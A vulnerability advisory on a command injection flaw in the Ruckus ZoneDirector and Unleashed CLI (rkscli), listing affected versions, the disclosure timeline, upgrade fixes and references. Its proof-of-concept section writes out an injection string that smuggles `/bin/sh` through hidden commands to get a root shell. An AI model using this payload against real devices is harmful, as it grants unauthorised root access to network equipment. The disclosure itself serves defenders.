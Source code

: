 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2019-09-19'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2019-12-24'
      url: 'https://support.ruckuswireless.com/security_bulletins/299'
    - type: 'cve-assign'
      date: '2019-12-17'
    - type: 'release'
      date: '2019-12-31'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

mitigation: 
     '- 9.10.x: Upgrade to 9.10.2.0.84

    - 9.12.x: Upgrade to 9.12.3.0.136

    - 9.13.x: Upgrade to 10.0.1.0.90

    - 10.0.x: Upgrade to 10.0.1.0.90

    - 10.1.x: Upgrade to 10.1.2.0.275

    - 10.2.x: Upgrade to 10.2.1.0.147

    - 10.3.x: Upgrade to 10.3.1.0.21

    - 200.6 and before: Upgrade to 200.7.10.202.94

    - 200.7: Upgrade to 200.7.10.202.94'

severity: 'moderate'
alephid: ALEPH-2019014
date: '2019-12-17'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - txt'
      url: 'https://www.ruckuswireless.com/security/299/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - PDF'
      url: 'https://www.ruckuswireless.com/security/299/view/pdf'
  
title: 'Ruckus CLI (rkscli) jailbreak'
---
```

This is a command injection vulnerability via a crafted CLI command with admin privilege.

`/usr/bin/rkscli` is a CLI used by Ruckus for user interaction and run commands by their web interface. `rkscli` has a hidden CLI command `Ruckus` that writes a limited string to `/writable/etc/system/access`. `!v54!` is another hidden command. If `!v54!` do not receive any arguments it executes `/usr/sbin/sesame` with that content of  `/writable/etc/system/access`.

`Ruckus` command can write a command injection payload into `/writable/etc/system/access`. Then `!v54!` can execute this payload and this way, escape to `busybox` shell.

Information about the exploitation of the vulnerability can be found in our [36C3 talk](https://youtu.be/bmGtG55Zz1Q?t=1718).


## Proof Of Concept ##
Jail breaking Ruckus CLI using this exploit
```
rkscli: Ruckus <-input ";/bin/sh;"
grrrr

rkscli: !v54!
What's your chow: 


Ruckus Wireless ZoneDirector -- Command Line Interface
Enter 'help' for a list of built-in commands.

ruckus$ echo $USER
root
```
